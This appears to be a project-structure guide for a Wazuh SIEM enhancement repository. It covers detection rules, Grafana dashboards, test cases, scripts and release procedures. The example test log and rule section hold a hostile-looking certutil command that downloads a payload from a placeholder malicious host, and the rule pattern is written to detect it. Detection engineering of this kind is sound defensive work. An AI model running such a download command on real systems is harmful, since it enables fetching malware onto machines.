

# Project Structure

Complete directory structure and file organization for the Wazuh SIEM Enhancement project.

## 📁 Root Directory Structure

```
wazuh-siem-enhancement/
├── .github/                       # GitHub-specific files
│   ├── workflows/                # GitHub Actions CI/CD
│   │   ├── validate.yml         # Validation pipeline
│   │   └── release.yml          # Release automation
│   ├── ISSUE_TEMPLATE/          # Issue templates
│   │   ├── bug_report.md
│   │   ├── feature_request.md
│   │   └── security_report.md
│   └── PULL_REQUEST_TEMPLATE.md # PR template
│
├── rules/                         # Detection Rules (Core Component)
│   ├── custom_detection_rules.xml          # All 33 custom rules (main file)
│   ├── lolbins_rules.xml                   # LOLBins-specific subset
│   ├── fileless_rules.xml                  # Fileless malware subset
│   ├── apt_rules.xml                       # APT detection subset
│   ├── README.md                           # Rules documentation
│   └── RULE_DEVELOPMENT_GUIDE.md           # How to create new rules
│
├── dashboards/                    # Grafana Dashboards
│   ├── wazuh-mitre-attack-advanced-threat-analysis.json  # Main dashboard
│   ├── dashboard-configuration-guide.md    # Setup instructions
│   ├── panel-descriptions.md               # Panel documentation
│   └── query-optimization-guide.md         # Performance tuning
│
├── docs/                          # Documentation
│   ├── installation-guide.md              # Detailed installation steps
│   ├── dashboard-user-guide.md            # Analyst workflow guide
│   ├── detection-rule-methodology.md      # Rule development approach
│   ├── performance-benchmarks.md          # Query performance data
│   ├── mitre-attack-mapping.md            # Technique coverage matrix
│   ├── troubleshooting-guide.md           # Common issues & solutions
│   ├── upgrade-guide.md                   # Version upgrade procedures
│   ├── api-reference.md                   # Wazuh API integration
│   ├── architecture-overview.md           # System architecture
│   └── contributing/                      # Contribution guides
│       ├── rule-contribution.md
│       ├── dashboard-contribution.md
│       └── documentation-contribution.md
│
├── test_cases/                    # Testing & Validation
│   ├── lolbin_test_logs.txt             # LOLBin test samples
│   ├── fileless_test_logs.txt           # Fileless attack samples
│   ├── apt_simulation_logs.txt          # APT campaign samples
│   ├── false_positive_tests.txt         # Negative test cases
│   ├── edge_case_tests.txt              # Edge case scenarios
│   ├── testing-methodology.md           # Test procedures
│   └── atomic_red_team_mapping.md       # ART test mappings
│
├── scripts/                       # Utility Scripts
│   ├── deploy_rules.sh                  # Automated deployment
│   ├── validate_rules.py                # Rule syntax validation
│   ├── check_rule_conflicts.py          # Duplicate ID checker
│   ├── validate_mitre_mapping.py        # ATT&CK mapping validator
│   ├── generate_rule_docs.py            # Auto-generate rule docs
│   ├── benchmark_queries.sh             # Performance testing
│   ├── export_dashboard.sh              # Dashboard backup
│   ├── bulk_test_rules.sh               # Batch rule testing
│   └── README.md                        # Script usage guide
│
├── d3fend_integration/            # Future Work (Design Phase)
│   ├── knowledge_engine.json            # ATT&CK → D3FEND mappings
│   ├── alert_enrichment_spec.md         # Enrichment design
│   ├── integration_architecture.md      # Implementation plan
│   ├── countermeasure_templates/        # Response playbook templates
│   │   ├── windows_countermeasures.json
│   │   └── linux_countermeasures.json
│   └── README.md                        # D3FEND integration overview
│
├── research/                      # Academic Materials
│   ├── literature-review.md             # Related work analysis
│   ├── methodology.md                   # Research methodology
│   ├── results-analysis.md              # Performance evaluation
│   ├── references.bib                   # Bibliography
│   ├── figures/                         # Diagrams and charts
│   └── presentations/                   # Conference materials
│
├── examples/                      # Usage Examples
│   ├── soc_workflows/                   # SOC analyst workflows
│   │   ├── initial_triage.md
│   │   ├── apt_investigation.md
│   │   └── threat_hunting.md
│   ├── integration_examples/            # Integration with other tools
│   │   ├── splunk_integration.md
│   │   ├── elastic_siem_integration.md
│   │   └── soar_integration.md
│   └── custom_rules/                    # Example custom rules
│       ├── example_lolbin_rule.xml
│       └── example_fileless_rule.xml
│
├── assets/                        # Media Assets
│   ├── images/                          # Screenshots, diagrams
│   │   ├── dashboard_overview.png
│   │   ├── architecture_diagram.png
│   │   └── alert_flow.png
│   ├── videos/                          # Demo videos
│   └── logos/                           # Project branding
│
├── tools/                         # Development Tools
│   ├── rule_generator/                  # Rule generation helper
│   ├── dashboard_builder/               # Dashboard creation tool
│   └── test_data_generator/             # Generate test datasets
│
├── .gitignore                     # Git exclusions
├── .editorconfig                  # Editor configuration
├── LICENSE                        # GPL v3.0 license
├── README.md                      # Main project documentation
├── CONTRIBUTING.md                # Contribution guidelines
├── CHANGELOG.md                   # Version history
├── CODE_OF_CONDUCT.md            # Community guidelines
├── SECURITY.md                    # Security policy
├── AUTHORS.md                     # Project contributors
└── CITATION.cff                   # Citation information
```

## 📄 File Descriptions

### Root Level Files

| File | Purpose | Required |
|------|---------|----------|
| `README.md` | Main project documentation, quick start guide | ✅ Yes |
| `LICENSE` | GPL v3.0 license text | ✅ Yes |
| `CONTRIBUTING.md` | Contribution guidelines and processes | ✅ Yes |
| `CHANGELOG.md` | Version history and release notes | ✅ Yes |
| `.gitignore` | Files/directories excluded from Git | ✅ Yes |
| `CODE_OF_CONDUCT.md` | Community behavior standards | ⚠️ Recommended |
| `SECURITY.md` | Security vulnerability reporting | ⚠️ Recommended |
| `AUTHORS.md` | List of project contributors | ⚠️ Recommended |
| `CITATION.cff` | Academic citation format | 📚 Optional |

### Detection Rules Directory (`rules/`)

**Main File:**
- `custom_detection_rules.xml` - Complete ruleset with all 33 rules

**Organized Subsets** (for easier navigation):
- `lolbins_rules.xml` - Rules 100100-100111 (12 rules)
- `fileless_rules.xml` - Rules 100200-100209 (10 rules)
- `apt_rules.xml` - Rules 100300-100399 (11 rules)

**Structure:**
```xml
<group name="custom_threats,">
  <!-- LOLBins Detection -->
  <rule id="100100" level="10">
    <if_sid>60612</if_sid>
    <field name="data.win.eventdata.commandLine">certutil.*-urlcache.*-split.*-f</field>
    <description>Certutil.exe used for file download (T1105)</description>
    <mitre>
      <id>T1105</id>
    </mitre>
    <group>attack.command_and_control,lolbin,certutil,</group>
  </rule>
  
  <!-- Additional rules... -->
</group>
```

### Dashboard Directory (`dashboards/`)

**Main Dashboard JSON:**
- 50+ panels across 5 sections
- Pre-configured Elasticsearch queries
- Risk scoring algorithms
- Temporal visualizations

**Configuration Files:**
- Panel descriptions and use cases
- Query optimization techniques
- Customization guidelines

### Documentation Directory (`docs/`)

Comprehensive documentation covering:

1. **Installation & Setup**
   - Step-by-step deployment
   - Prerequisites and requirements
   - Configuration options

2. **User Guides**
   - Dashboard navigation
   - Analyst workflows
   - Threat hunting procedures

3. **Technical Documentation**
   - Detection rule methodology
   - Performance benchmarks
   - API integration

4. **Contribution Guides**
   - How to contribute rules
   - Dashboard enhancement
   - Documentation standards

### Test Cases Directory (`test_cases/`)

**Log Samples:**
- Positive test cases (should trigger alerts)
- Negative test cases (should not trigger)
- Edge cases and boundary conditions

**Example Test Log:**
```
2025-10-24 10:30:45 WinEvtLog: Security: AUDIT_SUCCESS(4688): 
Microsoft-Windows-Security-Auditing: (no user): no domain: WIN-SERVER: 
New Process Created.
Creator Process Name: C:\Windows\System32\cmd.exe
New Process Name: C:\Windows\System32\certutil.exe
Command Line: certutil.exe -urlcache -split -f http://malicious.com/payload.exe
```

### Scripts Directory (`scripts/`)

**Deployment Scripts:**
- `deploy_rules.sh` - Automated rule deployment with backup
- `export_dashboard.sh` - Dashboard export/backup utility

**Validation Scripts:**
- `validate_rules.py` - XML syntax and rule validation
- `check_rule_conflicts.py` - Detect duplicate rule IDs
- `validate_mitre_mapping.py` - Verify ATT&CK technique IDs

**Testing Scripts:**
- `benchmark_queries.sh` - Dashboard query performance
- `bulk_test_rules.sh` - Batch rule testing

**Documentation Scripts:**
- `generate_rule_docs.py` - Auto-generate rule documentation

### D3FEND Integration Directory (`d3fend_integration/`)

**Status:** Design Phase (Not Yet Implemented)

**Contents:**
- `knowledge_engine.json` - ATT&CK to D3FEND mappings
- Architecture specifications
- Countermeasure templates
- Implementation roadmap

**Example Mapping:**
```json
{
  "T1105": {
    "technique": "Ingress Tool Transfer",
    "d3fend_countermeasures": [
      "D3-NTA: Network Traffic Analysis",
      "D3-FA: File Analysis",
      "D3-DNSAL: DNS Allowlisting"
    ],
    "windows_implementation": [
      "Enable Windows Firewall logging",
      "Monitor certutil.exe executions",
      "Block unsigned executables"
    ]
  }
}
```

## 🔧 Configuration Files

### `.github/workflows/validate.yml`

Automated CI/CD pipeline:
- Rule syntax validation
- Dashboard JSON validation
- Security scanning
- Documentation linting
- Deployment script testing

### `.editorconfig`

Consistent code formatting:
```ini
root = true

[*]
charset = utf-8
end_of_line = lf
insert_final_newline = true
trim_trailing_whitespace = true

[*.md]
max_line_length = 80
trim_trailing_whitespace = false

[*.xml]
indent_style = space
indent_size = 2

[*.json]
indent_style = space
indent_size = 2

[*.sh]
indent_style = space
indent_size = 2
```

## 📦 Release Artifacts

When creating releases, package the following:

**Essential Files:**
- `rules/custom_detection_rules.xml`
- `dashboards/wazuh-mitre-attack-advanced-threat-analysis.json`
- `scripts/deploy_rules.sh`
- `docs/installation-guide.md`
- `README.md`
- `LICENSE`

**Optional Inclusions:**
- Test cases for validation
- Documentation PDFs
- Video tutorials (links)

## 🚀 Getting Started with This Structure

### For Contributors

1. **Clone Repository:**
   ```bash
   git clone https://github.com/yourusername/wazuh-siem-enhancement.git
   cd wazuh-siem-enhancement
   ```

2. **Review Structure:**
   ```bash
   tree -L 2 -I 'node_modules|__pycache__'
   ```

3. **Read Contribution Guide:**
   ```bash
   cat CONTRIBUTING.md
   ```

### For Users

1. **Quick Install:**
   ```bash
   cd scripts/
   sudo ./deploy_rules.sh
   ```

2. **Import Dashboard:**
   - Access Grafana
   - Import `dashboards/wazuh-mitre-attack-advanced-threat-analysis.json`

3. **Read Documentation:**
   - Start with `docs/installation-guide.md`
   - Follow `docs/dashboard-user-guide.md`

## 📝 Maintenance Guidelines

### Adding New Detection Rules

1. Edit `rules/custom_detection_rules.xml`
2. Follow ID numbering scheme (100XXX)
3. Include MITRE ATT&CK mapping
4. Add test case to `test_cases/`
5. Update `CHANGELOG.md`
6. Run validation: `python scripts/validate_rules.py`

### Updating Dashboard

1. Edit dashboard in Grafana UI
2. Export updated JSON
3. Save to `dashboards/`
4. Update `dashboards/panel-descriptions.md`
5. Test query performance
6. Update `CHANGELOG.md`

### Documentation Updates

1. Edit relevant `.md` files in `docs/`
2. Follow Markdown style guide
3. Add screenshots to `assets/images/`
4. Update table of contents if needed
5. Run linter: `markdownlint docs/`

## 🔄 Version Control Strategy

### Branch Structure

```
main (production-ready releases)
├── develop (integration branch)
│   ├── feature/new-lolbin-rule
│   ├── feature/dashboard-enhancement
│   ├── bugfix/false-positive-fix
│   └── docs/update-installation-guide
└── release/v1.1.0 (release preparation)
```

### Commit Convention

```
<type>(<scope>): <subject>

<body>

<footer>
```

**Types:** feat, fix, docs, style, refactor, test, chore

**Example:**
```
feat(rules): Add detection for MSHTA.exe abuse

Implements rule 100111 targeting T1218.005 (MSHTA execution).
Includes string pattern matching for scriptlet downloads.

Closes #42
```

## 📊 Project Statistics

Track these metrics in your repository:

- **Detection Rules:** 33 custom rules
- **Dashboard Panels:** 50+ visualization panels
- **MITRE ATT&CK Coverage:** 15 techniques, 6 tactics
- **Documentation Pages:** 15+ comprehensive guides
- **Test Cases:** 50+ log samples
- **Lines of Code:** ~5,000 (rules + scripts + configs)
- **Contributors:** Track in AUTHORS.md
- **Stars/Forks:** Display in README badges

## 🔍 File Naming Conventions

### Rules Files
- **Format:** `<category>_rules.xml`
- **Examples:** `lolbins_rules.xml`, `fileless_rules.xml`
- **Lowercase with underscores**

### Documentation
- **Format:** `<topic>-<subtopic>.md`
- **Examples:** `installation-guide.md`, `dashboard-user-guide.md`
- **Lowercase with hyphens**

### Scripts
- **Format:** `<action>_<object>.<ext>`
- **Examples:** `deploy_rules.sh`, `validate_rules.py`
- **Lowercase with underscores**

### Test Cases
- **Format:** `<category>_test_<type>.txt`
- **Examples:** `lolbin_test_logs.txt`, `false_positive_tests.txt`
- **Descriptive, lowercase with underscores**

## 📋 Required Files Checklist

### Minimum Viable Project
- [ ] `README.md` with clear installation instructions
- [ ] `LICENSE` file (GPL v3.0)
- [ ] `rules/custom_detection_rules.xml` (core functionality)
- [ ] `dashboards/wazuh-mitre-attack-advanced-threat-analysis.json`
- [ ] `scripts/deploy_rules.sh` (deployment automation)
- [ ] `docs/installation-guide.md` (detailed setup)
- [ ] `.gitignore` (exclude sensitive files)
- [ ] `CHANGELOG.md` (version tracking)

### Recommended Additions
- [ ] `CONTRIBUTING.md` (community guidelines)
- [ ] `test_cases/` directory with samples
- [ ] `scripts/validate_rules.py` (quality assurance)
- [ ] `docs/dashboard-user-guide.md` (usage instructions)
- [ ] `.github/workflows/validate.yml` (CI/CD)
- [ ] `CODE_OF_CONDUCT.md` (community standards)

### Optional Enhancements
- [ ] `d3fend_integration/` (future work)
- [ ] `examples/` (usage scenarios)
- [ ] `research/` (academic materials)
- [ ] `tools/` (development utilities)
- [ ] Video tutorials
- [ ] Presentation materials

## 🎯 File Size Guidelines

| File Type | Recommended Size | Maximum Size |
|-----------|------------------|--------------|
| XML Rules | 50-200 KB | 500 KB |
| Dashboard JSON | 200-500 KB | 2 MB |
| Markdown Docs | 10-50 KB | 200 KB |
| Shell Scripts | 5-20 KB | 50 KB |
| Python Scripts | 10-50 KB | 100 KB |
| Test Logs | 1-10 KB | 50 KB |
| Images (PNG) | 50-500 KB | 2 MB |

**Note:** Keep files modular and split large files into logical components.

## 🔐 Security Considerations

### Files to NEVER Commit

```
# Sensitive Information
*.key
*.pem
secrets.yml
.env
credentials.txt

# Wazuh Configuration (may contain secrets)
ossec.conf
client.keys
authd.pass

# Private Test Data
real_alerts/
production_logs/
customer_data/
```

### Files Requiring Review Before Commit

- Test cases with real hostnames/IPs
- Screenshots with sensitive information
- Configuration examples with actual endpoints
- Log samples from production environments

## 📦 Packaging for Distribution

### Source Distribution

```bash
# Create release archive
git archive --format=tar.gz \
  --prefix=wazuh-siem-enhancement-v1.0.0/ \
  -o wazuh-siem-enhancement-v1.0.0.tar.gz \
  v1.0.0
```

**Include:**
- All source files
- Documentation
- Test cases
- Scripts
- LICENSE

### Binary Distribution (if applicable)

```bash
# Create deployment package
mkdir -p release/v1.0.0
cp rules/custom_detection_rules.xml release/v1.0.0/
cp dashboards/*.json release/v1.0.0/
cp scripts/deploy_rules.sh release/v1.0.0/
cp docs/installation-guide.md release/v1.0.0/INSTALL.txt
cp README.md LICENSE release/v1.0.0/

tar -czf wazuh-siem-enhancement-v1.0.0-deploy.tar.gz release/v1.0.0/
```

**Include:**
- Pre-configured rules
- Dashboard JSON
- Deployment script
- Quick start guide
- LICENSE

## 🔄 Update Workflow

### When Adding New Rules

1. **Update Files:**
   ```
   rules/custom_detection_rules.xml          ← Add new rule
   test_cases/new_technique_test.txt        ← Add test case
   docs/mitre-attack-mapping.md             ← Update coverage
   CHANGELOG.md                             ← Document change
   ```

2. **Validation:**
   ```bash
   python scripts/validate_rules.py
   bash -n scripts/deploy_rules.sh
   ```

3. **Testing:**
   ```bash
   cat test_cases/new_technique_test.txt | \
     sudo /var/ossec/bin/wazuh-logtest
   ```

### When Updating Dashboard

1. **Export from Grafana:**
   - Dashboard → Share → Export → Save to file

2. **Update Files:**
   ```
   dashboards/wazuh-mitre-attack-advanced-threat-analysis.json
   dashboards/panel-descriptions.md
   CHANGELOG.md
   ```

3. **Test Import:**
   - Create new test Grafana instance
   - Import updated JSON
   - Verify all panels load

### When Updating Documentation

1. **Edit Files:**
   ```
   docs/relevant-guide.md
   ```

2. **Check Links:**
   ```bash
   # Install markdown-link-check
   npm install -g markdown-link-check
   
   # Verify links
   markdown-link-check docs/*.md
   ```

3. **Preview:**
   ```bash
   # Use grip for GitHub-flavored markdown preview
   pip install grip
   grip docs/installation-guide.md
   ```

## 🎨 Asset Management

### Screenshots

**Location:** `assets/images/screenshots/`

**Naming Convention:**
```
<section>-<feature>-<version>.png

Examples:
dashboard-overview-v1.0.0.png
rule-deployment-success-v1.0.0.png
apt-detection-panel-v1.0.0.png
```

**Guidelines:**
- Resolution: 1920x1080 or higher
- Format: PNG for UI, SVG for diagrams
- Annotate important areas with arrows/highlights
- Blur sensitive information (hostnames, IPs)

### Diagrams

**Location:** `assets/images/diagrams/`

**Format:** Mermaid markdown + exported PNG/SVG

**Example:**
```markdown

```

### Video Tutorials

**Recommendation:** Host on YouTube, link in README

**Topics:**
- Installation walkthrough
- Dashboard navigation
- Rule customization
- Incident investigation workflow

## 📚 Documentation Standards

### Markdown Style

```markdown
# H1 - Main Title (one per document)

Brief introduction paragraph.

## H2 - Section Heading

Content with **bold** and *italic* emphasis.

### H3 - Subsection

- Bullet points for lists
- Keep items parallel in structure

1. Numbered lists for sequential steps
2. Each step should be actionable

**Code Blocks:**
```bash
# Always specify language
command --with-options
```

**Tables:**
| Header 1 | Header 2 |
|----------|----------|
| Data 1   | Data 2   |

**Links:**
[Link Text](https://example.com)
[Internal Link](../other-doc.md)

**Images:**

```

### Documentation Headers

Include at the top of technical docs:

```markdown
# Document Title

**Status:** Draft | Review | Published  
**Version:** 1.0.0  
**Last Updated:** 2025-10-24  
**Author:** Your Name  
**Reviewers:** Reviewer Names  

---

## Purpose

Brief description of document purpose.

## Audience

Who should read this document.

## Prerequisites

What readers should know/have before reading.

---
```

## 🏷️ Tagging and Releases

### Git Tags

```bash
# Annotated tag for releases
git tag -a v1.0.0 -m "Release version 1.0.0

- 33 custom detection rules
- Advanced threat dashboard
- Complete documentation
- Automated deployment scripts"

# Push tag
git push origin v1.0.0
```

### Release Naming

- **Format:** `v<major>.<minor>.<patch>`
- **Example:** `v1.0.0`, `v1.1.0`, `v1.0.1`

### Release Checklist

- [ ] All tests passing
- [ ] CHANGELOG.md updated
- [ ] Version numbers updated in docs
- [ ] Git tag created
- [ ] GitHub Release created with notes
- [ ] Release artifacts uploaded
- [ ] Documentation deployed
- [ ] Social media announcement

## 🤝 Collaboration Tools

### Project Management

**GitHub Projects:**
- Kanban board for issues
- Milestone tracking
- Release planning

**Labels:**
- `bug` - Something isn't working
- `enhancement` - New feature request
- `documentation` - Documentation improvements
- `good first issue` - Beginner-friendly
- `help wanted` - Community assistance needed
- `priority: high` - Critical issues
- `wontfix` - Will not be addressed

### Communication

**GitHub Discussions:**
- Q&A forum
- Feature discussions
- Show and tell
- Community chat

**Issue Templates:**
```markdown
---
name: Bug Report
about: Report a bug or issue
---

**Describe the bug**
A clear description of what the bug is.

**To Reproduce**
Steps to reproduce the behavior:
1. Go to '...'
2. Click on '...'
3. See error

**Expected behavior**
What you expected to happen.

**Environment:**
- Wazuh Version: [e.g., 4.8.0]
- OS: [e.g., Ubuntu 22.04]
```

## 🎓 Learning Resources

### For New Contributors

1. **Start Here:**
   - `README.md` - Project overview
   - `CONTRIBUTING.md` - How to contribute
   - `docs/architecture-overview.md` - System design

2. **Technical Deep Dive:**
   - `docs/detection-rule-methodology.md`
   - `rules/RULE_DEVELOPMENT_GUIDE.md`
   - `docs/mitre-attack-mapping.md`

3. **Hands-On:**
   - `examples/custom_rules/`
   - `test_cases/`
   - Deploy in test environment

### External Resources

- [Wazuh Documentation](https://documentation.wazuh.com/)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [Grafana Documentation](https://grafana.com/docs/)
- [LOLBAS Project](https://lolbas-project.github.io/)

## 📞 Support Structure

### Documentation First

1. Check `docs/troubleshooting-guide.md`
2. Search existing GitHub Issues
3. Review Discussions

### Community Support

1. GitHub Discussions for general questions
2. GitHub Issues for bugs/features
3. Wazuh community forums

### Private Support

- Security issues: security@yourproject.com
- Private inquiries: contact@yourproject.com

---

## Summary

This structure provides:

✅ **Organization** - Clear file hierarchy  
✅ **Scalability** - Easy to extend  
✅ **Maintainability** - Logical grouping  
✅ **Accessibility** - Clear documentation  
✅ **Collaboration** - Community-friendly  

**Next Steps:**
1. Create directory structure
2. Populate with existing files
3. Set up CI/CD
4. Write initial documentation
5. Create first release

---

**For questions about project structure, see [CONTRIBUTING.md](../CONTRIBUTING.md)**